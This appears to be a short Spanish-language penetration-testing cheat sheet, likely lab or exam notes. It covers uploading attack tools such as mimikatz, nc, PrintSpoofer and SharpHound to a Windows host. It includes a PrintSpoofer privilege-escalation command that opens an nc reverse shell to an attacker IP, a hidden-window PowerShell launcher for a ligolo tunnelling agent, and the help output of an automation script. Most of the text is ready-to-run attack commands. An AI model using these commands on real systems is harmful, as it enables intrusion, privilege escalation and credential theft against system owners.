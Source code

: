 
### Subir tools

- **Comprimir archivos en zip**

* Opcion 1:
```bash
cd fwindows/     # dentro de la carpeta que tiene todo
zip -r ../tools.zip * 
```

* Opcion 2:
```bash
zip -r tools.zip agent.exe nc.exe PrintSpoofer64.exe mimikatz.exe PowerView.ps1 SharpHound.ps1
```
---
```bash
iwr -uri http://192.168.45.152:8000/tools.zip -Outfile tools.zip
```
---
```bash
Expand-Archive tools.zip -DestinationPath .
```

### WPE

```powershell
.\PrintSpoofer64.exe -c "C:\Users\eric.wallows\Documents\nc.exe 192.168.45.152 4444 -e cmd"
```

### Ejecucion en segundo plano

* Funcion

```powershell
function bg_exec($cmd) {
    Start-Process -WindowStyle Hidden -FilePath "powershell.exe" -ArgumentList "-nop -w hidden -c $cmd"
}
```
* ligolo:
```powershell
bg_exec "C:\Users\eric.wallows\Documents\agent.exe -connect 192.168.45.152:11601 -ignore-cert"
```

### Automation Script:

```bash
. .\Executor.ps1
```

* help:

```bash
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> . .\Executor.ps1 -h
=== Executor.ps1 Help ===
Funciones disponibles:
  Invoke-Ligolo -ip <IP> [-port 11601]
  Invoke-PrintSpoofer -ip <IP> [-port 4444]
  Invoke-WinPEAS [-outputPath <ruta>]
  Invoke-SharpHoundDump [-collection <tipo>]
```



